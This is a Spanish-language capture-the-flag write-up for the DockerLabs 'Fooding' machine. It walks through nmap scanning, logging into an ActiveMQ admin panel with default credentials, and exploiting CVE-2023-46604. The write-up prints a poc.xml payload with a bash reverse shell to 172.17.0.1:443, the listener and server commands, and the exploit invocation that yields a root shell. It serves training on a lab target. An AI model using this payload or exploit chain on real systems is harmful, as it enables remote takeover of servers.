 # Máquina Fooding

---------------------

Dificultad -> Easy

Enlace a la máquina -> [Dockerlabs](https://dockerlabs.es/)

-----------------
## Reconocimiento

Comenzamos realizando un escaneo general con **nmap** sobre la IP de la máquina víctima para ver que puertos tiene abiertos.

```shell
nmap -p- --open -sT --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts
________________________________________________
PORT      STATE SERVICE     REASON
80/tcp    open  http        syn-ack
443/tcp   open  https       syn-ack
1883/tcp  open  mqtt        syn-ack
5672/tcp  open  amqp        syn-ack
8161/tcp  open  patrol-snmp syn-ack
41031/tcp open  unknown     syn-ack
61613/tcp open  unknown     syn-ack
61614/tcp open  unknown     syn-ack
61616/tcp open  unknown     syn-ack
```

Lanzamos un conjunto de scripts predeterminado con **nmap** para que nos reporte más información sobre los servicios.

```shell
nmap -sCV -p80,443,1883,5672,8161,41031,61613,61614,61616 172.17.0.2 -oN targeted
________________________________________________
PORT      STATE SERVICE    VERSION
80/tcp    open  http       Apache httpd 2.4.59 ((Debian))
|_http-server-header: Apache/2.4.59 (Debian)
|_http-title: Apache2 Debian Default Page: It works
443/tcp   open  ssl/http   Apache httpd 2.4.59 ((Debian))
|_http-title: DockerLabs | Plantilla gratuita Bootstrap 4.3.x
|_http-server-header: Apache/2.4.59 (Debian)
1883/tcp  open  mqtt
| mqtt-subscribe: 
|   Topics and their most recent payloads: 
|     ActiveMQ/Advisory/Consumer/Topic/#: 
|_    ActiveMQ/Advisory/MasterBroker: 
5672/tcp  open  amqp?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, GetRequest, HTTPOptions, RPCCheck, RTSPRequest, SSLSessionReq, TerminalServerCookie: 
8161/tcp  open  http       Jetty 9.4.39.v20210325
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  basic realm=ActiveMQRealm
|_http-server-header: Jetty(9.4.39.v20210325)
|_http-title: Error 401 Unauthorized
41031/tcp open  tcpwrapped
61613/tcp open  stomp      Apache ActiveMQ
61614/tcp open  http       Jetty 9.4.39.v20210325
|_http-server-header: Jetty(9.4.39.v20210325)
|_  Potentially risky methods: TRACE
61616/tcp open  apachemq   ActiveMQ OpenWire transport
| fingerprint-strings: 
|   NULL: 
|_    5.15.15
```

Entramos a la web del puerto 80 y a la del puerto 443 a inspeccionarlas, no encontramos nada interesante. También hemos aplicado **Fuzzing** sobre ellas pero no he logrado encontrar nada interesante.

Le echamos un vistazo a la web que corre por el puerto **8161**

```
http://172.17.0.2:8161/index.html
```

Nos pide autenticación, probamos credenciales comunes como pueden ser:
- root:root
- guest:guest
- admin:admin

Logramos acceder con las credenciales **admin:admin**

En la web encontramos un directorio **/admin** en uno de los links. Observamos el panel de **ActiveMQ**, servicio el cual corre por el puerto **61616**, como podemos ver en el reporte de **nmap**.

![Pasted image 20240417135427](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/400ec442-9cd8-487c-b033-1b7b65c963df)

------------------
## Explotación

Tras buscar en internet, encontramos un exploit para la versión **5.15.15** -> [Exploit](https://github.com/NKeshawarz/CVE-2023-46604-RCE)
En el **exploit** tenemos que editar el archivo **poc.xml** para ejecutar el comando que queremos, en este caso la **reverse shell**.

```xml
<value>bash</value>
<value>-c</value>
<value>bash -i &gt;&amp; /dev/tcp/172.17.0.1/443 0&gt;&amp;1</value>
```

Este recurso lo compartiremos por el puerto **80** con **python**:

```shell
sudo python3 -m http.server 80
```

Abriremos el puerto **443** para recibir la **reverse shell**:

```shell
sudo nc -nlvp 443
```

Ejecutaremos el script, que tomará el **poc.xml** de nuestro servidor de python. Cabe recalcar que no indicamos el puerto ya que el script usa el puerto por defecto de **ActiveMQ** que es el **61616**. 

```shell
python3 CVE-2023-46604-RCE.py -i 172.17.0.2 -u http://172.17.0.1/poc.xml
```

Estamos dentro !

```shell
whoami
----------------
root
```

Y como el usuario que corre el servicio que hemos explotado es **root**, tenemos los privilegios máximos en el sistema.

------------

